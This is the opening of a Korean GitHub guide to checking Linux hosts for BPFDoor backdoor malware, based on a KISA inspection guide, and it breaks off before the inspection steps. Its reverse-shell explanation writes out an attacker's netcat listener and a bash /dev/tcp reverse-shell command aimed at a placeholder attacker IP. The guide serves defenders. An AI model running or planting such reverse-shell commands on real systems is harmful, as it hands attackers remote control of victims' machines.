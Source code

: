# BPFDoor 악성코드 점검 명령어 가이드

> 본 문서는 한국인터넷진흥원(KISA)에서 배포한 "BPFDoor 악성코드 점검 가이드"를 바탕으로 작성되었습니다.

## 목차
- [개요](#개요)
- [BPFDoor란?](#bpfdoor란)
- [Reverse Shell란?](#Reverse-Shell란)
- [뮤텍스락이란?](#뮤텍스락이란)
- [점검 방법](#점검-방법)
  - [1. 뮤텍스/락 파일 점검](#1-뮤텍스락mutexlock-파일-점검)
  - [2. 자동 실행 파일 점검](#2-자동-실행-파일-점검)
  - [3. BPF 점검](#3-bpfberkeley-packet-filter-점검)
  - [4. RAW 소켓 점검](#4-raw-소켓-점검)
  - [5. 환경변수 점검](#5-환경변수-점검)
  - [6. 네트워크 포트 점검](#6-네트워크-포트-점검)
  - [7. 컨트롤러 점검](#7-컨트롤러-점검)
  - [8. 문자열 기반 점검](#8-문자열-기반-점검)
- [점검 스크립트](#점검-스크립트)
- [주의사항](#주의사항)
- [참고자료](#참고자료)

## 개요

BPFDoor의 기능은 스텔스 기능, 리버스셸 통신 기능이 있는 악성코드이다.

## BPFDoor란?

- **리눅스 백도어**: 포트를 열지 않고 외부 연결을 대기하는 백도어
- **매직패킷 기반**: 특정 매직패킷 수신 시 쉘 연결 활성화
- **BPF 기술 악용**: 네트워크 트래픽 필터링으로 탐지 회피
- **다중 연결 모드**: 리버스쉘, 바인드쉘, 원격 쉘 연결 지원


## Reverse Shell이란?

- **Reverse Shell**은 피해자(감염된 시스템)가 **공격자 시스템으로 셸 세션을 역방향으로 연결**하는 기술입니다.
- 이 방식은 일반적인 **방화벽 우회**에 활용됩니다. 피해자가 외부로 연결을 시도하므로, 인바운드 포트가 차단되어 있어도 우회가 가능합니다.
- 공격자는 연결을 수신하는 서버로 대기하고, 피해자가 이 서버로 접속함으로써 공격자는 원격에서 명령을 실행할 수 있는 셸 환경을 얻게 됩니다.

### 예시 시나리오:
1. 공격자는 `nc -lvnp 4444` 명령어로 리버스 셸 연결을 대기.
2. 피해자는 BPFDoor에 의해 `bash -i >& /dev/tcp/공격자IP/4444 0>&1` 명령을 실행.
3. 공격자는 피해자 시스템의 셸을 얻게 됨.

---

## Mutex Lock이란?

